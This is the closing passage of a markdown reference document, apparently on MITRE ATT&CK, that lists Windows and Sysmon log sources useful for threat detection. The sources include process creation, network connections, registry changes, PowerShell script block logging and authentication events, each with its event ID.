• Process Creation (Sysmon 1 / 4688)
• Process Access (Sysmon 10)
• Network Connection (Sysmon 3 / firewall logs)
• File Creation (Sysmon 11)
• Registry Modification (Sysmon 13)
• PowerShell Logging (4104 ScriptBlock)
• Authentication Events (4624/4625/4648)
```

---

*End of Document — 07_MITRE_ATT_CK.md*
